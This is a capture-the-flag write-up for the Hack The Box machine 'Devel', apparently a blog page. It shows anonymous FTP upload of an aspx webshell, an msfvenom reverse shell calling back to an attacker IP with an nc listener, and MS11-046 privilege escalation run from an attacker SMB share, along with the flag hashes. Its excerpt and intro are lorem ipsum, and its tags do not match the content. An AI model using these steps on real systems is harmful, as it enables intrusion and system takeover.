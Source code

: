 ```yaml
---
layout: single
title: Devel - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-16
classes: wide
header:
  teaser: /assets/images/htb-writeup-devel/devel_logo.png
  teaser_home_page: true
  icon: /assets/images/windows.png
categories:
  - hackthebox
  - infosec
tags:  
  - windows
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-devel/devel_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. [root:/git/htb/devel]# nmap -Pn -n -sCV 10.10.10.5 --open                                                                         (master✱)
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | 03-18-17  01:06AM       <DIR>          aspnet_client
    | 03-17-17  04:37PM                  689 iisstart.htm
    |_03-17-17  04:37PM               184946 welcome.png
    | ftp-syst:
    |_  SYST: Windows_NT
    80/tcp open  http    Microsoft IIS httpd 7.5
    | http-methods:
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: IIS7
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

   DIRB:
   ==> DIRECTORY: http://10.10.10.5/aspnet_client/

   NIKTO:
   + Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST


2. The FTP server is open for anonymous login, let see what we can do there.

  [root:/git/htb/devel]# ftp  10.10.10.5                                                                                            (master✱)
    Connected to 10.10.10.5.
    220 Microsoft FTP Service
    Name (10.10.10.5:root): anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password:
    230 User logged in.
    Remote system type is Windows_NT.
    ftp> ?
      Commands may be abbreviated.  Commands are:

      !		dir		mdelete		qc		site
      $		disconnect	mdir		sendport	size
      account		exit		mget		put		status
      append		form		mkdir		pwd		struct
      ascii		get		mls		quit		system
      bell		glob		mode		quote		sunique
      binary		hash		modtime		recv		tenex
      bye		help		mput		reget		tick
      case		idle		newer		rstatus		trace
      cd		image		nmap		rhelp		type
      cdup		ipany		nlist		rename		user
      chmod		ipv4		ntrans		reset		umask
      close		ipv6		open		restart		verbose
      cr		lcd		prompt		rmdir		?
      delete		ls		passive		runique
      debug		macdef		proxy		send

   We have the option to 'put' (upload) files to the ftp, and looking around it seems like we are in webroot.
   Lets upload a webshell and browse to it. Since it's not a .php-server, lets upload a .aspx-shell.

   ftp> put aspxshell.aspx
    local: aspxshell.aspx remote: aspxshell.aspx
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    226 Transfer complete.
    5273 bytes sent in 0.00 secs (22.0558 MB/s)

   Go to http://10.10.10.5/aspxshell.aspx to enumerate the box further.

   > whoami
     iis apppool\web


3. Instead of looking around in a webshell, lets create a reverse aspx payload and upload it to the box.

    [root:/git/htb/devel]# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4488 -f aspx > rev.aspx                      (master✱)
      [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
      [-] No arch selected, selecting arch: x86 from the payload
      No encoder specified, outputting raw payload
      Payload size: 324 bytes
      Final size of aspx file: 2721 bytes

   Browse to http://10.10.10.5/rev.aspx to trigger the rev-shell.

    [root:/git/htb/devel]# nc -lvnp 4488                                                                                              (master✱)
      listening on [any] 4488 ...
      connect to [10.10.14.10] from (UNKNOWN) [10.10.10.5] 49158
      Microsoft Windows [Version 6.1.7600]
      Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

      c:\windows\system32\inetsrv>whoami
        iis apppool\web

  I can't find any vulnerabilities by just looking around. Watson is a Windows exploit suggester that we can run from a locally
  hosted SMB server. Download pre-compiled Watson and execute it on the victim, through your SMB-server.

  [root:/srv/pub-share]# service smbd start
  [root:/srv/pub-share]# cp /opt/winPE/binaries/watson/WatsonNet3.5AnyCPU.exe .

  c:\inetpub\wwwroot>\\10.10.14.10\pub-share\WatsonNet3.5AnyCPU.exe
      __    __      _
     / / /\ \ \__ _| |_ ___  ___  _ __
     \ \/  \/ / _` | __/ __|/ _ \| '_ \
      \  /\  / (_| | |_\__ \ (_) | | | |
       \/  \/ \__,_|\__|___/\___/|_| |_|

                               v0.1

                      Sherlock sucks...
                       @_RastaMouse

     [*] OS Build number: 7600
     [*] CPU Address Width: 32
     [*] Process IntPtr Size: 4
     [*] Using Windows path: C:\WINDOWS\System32

      [*] Appears vulnerable to MS10-073
       [>] Description: Kernel-mode drivers load unspecified keyboard layers improperly, which result in arbitrary code execution in the kernel.
       [>] Exploit: https://www.exploit-db.com/exploits/36327/
       [>] Notes: None.

      [*] Appears vulnerable to MS10-092
       [>] Description: When processing task files, the Windows Task Scheduler only uses a CRC32 checksum to validate that the file has not been tampered with.Also, In a default configuration, normal users can read and write the task files that they have created.By modifying the task file and creating a CRC32 collision, an attacker can execute arbitrary commands with SYSTEM privileges.
       [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms10_092_schelevator.rb
       [>] Notes: None.

      [*] Appears vulnerable to MS11-046
       [>] Description: The Ancillary Function Driver (AFD) in afd.sys does not properly validate user-mode input, which allows local users to elevate privileges.
       [>] Exploit: https://www.exploit-db.com/exploits/40564/
       [>] Notes: None.

      [*] Appears vulnerable to MS12-042
       [>] Description: An EoP exists due to the way the Windows User Mode Scheduler handles system requests, which can be exploited to execute arbitrary code in kernel mode.
       [>] Exploit: https://www.exploit-db.com/exploits/20861/
       [>] Notes: None.

      [*] Appears vulnerable to MS13-005
       [>] Description: Due to a problem with isolating window broadcast messages in the Windows kernel, an attacker can broadcast commands from a lower Integrity Level process to a higher Integrity Level process, thereby effecting a privilege escalation.
       [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms13_005_hwnd_broadcast.rb
       [>] Notes: None.

     [*] Finished. Found 5 vulns :)


4. We are presented with various vulnerabilities, MS11-046 sounds great as it "allows local users to elevate privileges" which is
   exatly what we want. Upload the malicious .exe to your local SMB server and execute it on the remove host.

   [root:/srv/pub-share]# cp /opt/windows-kernel-exploits/MS11-046/ms11-046.exe .
   [root:/srv/pub-share]# chmod +x ms11-046.exe

   c:\inetpub\wwwroot>\\10.10.14.10\pub-share\ms11-046.exe
    \\10.10.14.10\pub-share\ms11-046.exe

    c:\Windows\System32>whoami
      nt authority\system

    C:\Users\babis\Desktop>type user.txt.txt
      9ecdd6a3aedf24b41562fea70f4cb3e8

    C:\Users\Administrator\Desktop>type root.txt
      e621a0b5041708797c4fc4728bc72b4b


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. -

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Pre-compiled Watson Binaries:
  https://github.com/carlospolop/winPE

Windows Kernel Exploits:
  https://github.com/SecWiki/windows-kernel-exploits
